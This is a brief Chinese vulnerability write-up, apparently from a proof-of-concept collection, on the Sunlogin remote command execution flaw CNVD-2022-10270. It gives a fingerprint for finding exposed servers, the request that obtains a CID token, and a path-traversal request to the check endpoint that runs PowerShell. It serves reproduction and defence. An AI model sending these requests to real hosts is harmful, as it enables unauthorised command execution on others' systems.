

# 向日葵 check 远程命令执行漏洞 CNVD-2022-10270

## 漏洞描述

向日葵通过发送特定的请求获取CID后，可调用 check接口实现远程命令执行，导致服务器权限被获取

## 漏洞影响

<a-checkbox checked>11.0.0.33162</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="Verification failure"</a-checkbox></br>

## 漏洞复现

向日葵在开启后会默认在 40000-65535 之间开启某端口



发送请求获取CID

```javascript
/cgi-bin/rpc?action=verify-haras
```


使用获取到的 verify_string 作为 cookie的 CID字段，进行命令执行

```javascript
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+ipconfig
```

